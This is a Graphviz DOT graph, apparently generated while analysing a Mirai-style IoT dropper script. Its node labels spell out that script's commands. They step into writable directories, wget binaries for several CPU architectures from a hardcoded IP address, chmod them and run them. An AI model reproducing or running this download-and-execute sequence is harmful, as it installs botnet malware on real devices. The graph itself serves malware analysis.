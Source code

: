 digraph {
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 10 [label="||,"];
10 [label="wget http://198.167.140.126/miari.mips "];
10 -> 12 [label=";,"];
12 [label="chmod +x miari.mips "];
12 -> 14 [label=";,"];
14 [label="./miari.mips\r "];
14 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 26 [label="||,"];
26 [label="wget http://198.167.140.126/miari.sh4 "];
26 -> 28 [label=";,"];
28 [label="chmod +x miari.sh4 "];
28 -> 30 [label=";,"];
30 [label="./miari.sh4\r "];
30 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 42 [label="||,"];
42 [label="wget http://198.167.140.126/miari.arm7 "];
42 -> 44 [label=";,"];
44 [label="chmod +x miari.arm7 "];
44 -> 46 [label=";,"];
46 [label="./miari.arm7\r "];
46 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 58 [label="||,"];
58 [label="wget http://198.167.140.126/miari.arm "];
58 -> 60 [label=";,"];
60 [label="chmod +x miari.arm "];
60 -> 62 [label=";,"];
62 [label="./miari.arm\r "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 74 [label="||,"];
74 [label="wget http://198.167.140.126/miari.dbg "];
74 -> 76 [label=";,"];
76 [label="chmod +x miari.dbg "];
76 -> 77 [label=";,"];
}
